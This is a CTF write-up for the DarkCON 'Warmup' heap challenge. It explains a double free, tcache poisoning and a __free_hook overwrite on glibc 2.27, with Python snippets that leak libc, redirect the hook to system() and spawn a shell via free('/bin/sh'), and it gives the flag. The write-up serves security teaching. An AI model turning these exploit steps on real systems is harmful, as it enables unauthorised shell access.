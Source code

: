 # [DarkCON CTF] Warmup

## Info

+ 30 solves / 482 points

warm up yourself and get the flag!

## Summary

+ double free
+ tcache poisoning
+ hook overwrite

## File

+ Arch : x86-64
+ Library : dynamically linked (libc6_2.27-3ubuntu1.2_amd64)

## Checksec

+ CANARY : Enabled
+ FORTIRY : Disabled
+ NX : Enabled
+ PIE : Disabled
+ RELRO : Partial

## Description

This is simple `menu` format challenge.
In this challenge, there are 3 important functions to understand how to exploit.

+ main

Print address of _reloc.strcpy

+ create

note index : [0, 0x10)

note size : (0,0x20]

Call malloc() and gets input.

+ delete

Call free() and return without reset address.

## Exploit

**Leak libc address**

```python
p.recvuntil(": ")
strcpy = int(p.recv(14),16)
libc = strcpy - 0xb65b0
system = libc + l.symbols["system"]
free_hook = libc + l.symbols["__free_hook"]
```

The given address is the address of __strcpy_sse2, not strcpy. If you notice this point, you can get libc base address easily.

**Overwrite free_hook**

```python
delete(0)
delete(0)
create(0, 0x10, p64(free_hook))
create(1, 0x10, b"/bin/sh\x00")
create(2, 0x10, p64(system))
delete(1)
```

Since delete() does not reset address table, we can trigger double free by simply deleting same address twice. Tcache double free check does not exist because the library version is < 2.29. 

Now we can call system("/bin/sh") by overwriting free_hook to system() and call free("/bin/sh").

## Flag

+ darkCON{shrtflg}